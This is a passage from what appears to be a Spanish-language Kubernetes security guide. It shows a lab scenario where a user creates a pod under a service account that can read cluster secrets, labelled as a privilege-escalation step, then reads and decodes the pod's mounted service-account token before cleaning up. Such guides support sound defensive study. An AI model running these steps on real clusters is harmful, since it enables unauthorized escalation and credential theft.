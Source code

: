 ```bash
metadata:
  name: test-cr
rules:
  - apiGroups: [""]
    resources: ["secrets"]
    verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: test-crb
subjects:
  - kind: ServiceAccount
    namespace: default
    name: test-sa
    apiGroup: ""
roleRef:
  kind: ClusterRole
  name: test-cr
  apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Comprobar que test-sa puede acceder a los secretos de kube-system
kubectl --as system:serviceaccount:default:test-sa -n kube-system get secrets

# Comprobar que el usuario Test puede obtener pods en el espacio de nombres predeterminado
kubectl --as Test -n default get pods

# Crear un pod como usuario Test con el SA test-sa (paso de escalada de privilegios)
echo "apiVersion: v1
kind: Pod
metadata:
  name: test-pod
  namespace: default
spec:
  containers:
  - name: alpine
    image: alpine
    command: ['/bin/sh']
    args: ['-c', 'sleep 100000']
  serviceAccountName: test-sa
  automountServiceAccountToken: true
  hostNetwork: true"| kubectl --as Test apply -f -

# Conéctese al pod creado y confirme que el token de la cuenta de servicio adjunto pertenece a test-sa
kubectl exec -ti -n default test-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Limpiar el escenario
kubectl delete pod test-pod
kubectl delete clusterrolebinding test-crb
kubectl delete clusterrole test-cr
kubectl delete rolebinding test-rb
kubectl delete role test-r
kubectl delete serviceaccount test-sa
```

